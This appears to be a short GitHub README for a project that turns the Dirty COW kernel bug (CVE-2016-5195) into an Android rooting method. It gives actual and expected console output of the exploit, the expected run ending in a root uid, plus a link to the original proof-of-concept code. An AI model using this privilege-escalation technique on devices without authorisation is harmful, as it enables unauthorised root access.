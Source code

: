 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method  
Currently Linux Only  
  
Current Issue: run-as not working as expected  
Output:  
[*] mmap 0xf7158000  
[*] exploit (patch)  
[*] currently 0xf7158000=464c457f  
[*] madvise = 0xf7158000 14280  
[*] madvise = 0 1048576  
[*] /proc/self/mem -1048576 1048576  
[*] exploited 0xf7158000=464c457f  
adb shell /system/bin/run-as  
run-as: Usage:  
    run-as <package-name> [--user <uid>] <command> [<args>]  
  
Expected Output:  
[*] mmap 0xf7158000  
[*] exploit (patch)  
[*] currently 0xf7158000=464c457f  
[*] madvise = 0xf7158000 14280  
[*] madvise = 0 1048576  
[*] /proc/self/mem -1048576 1048576  
[*] exploited 0xf7158000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
  
!!!WARNING HAS NOT BEEN TESTED USE AT OWN RISK!!!   
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
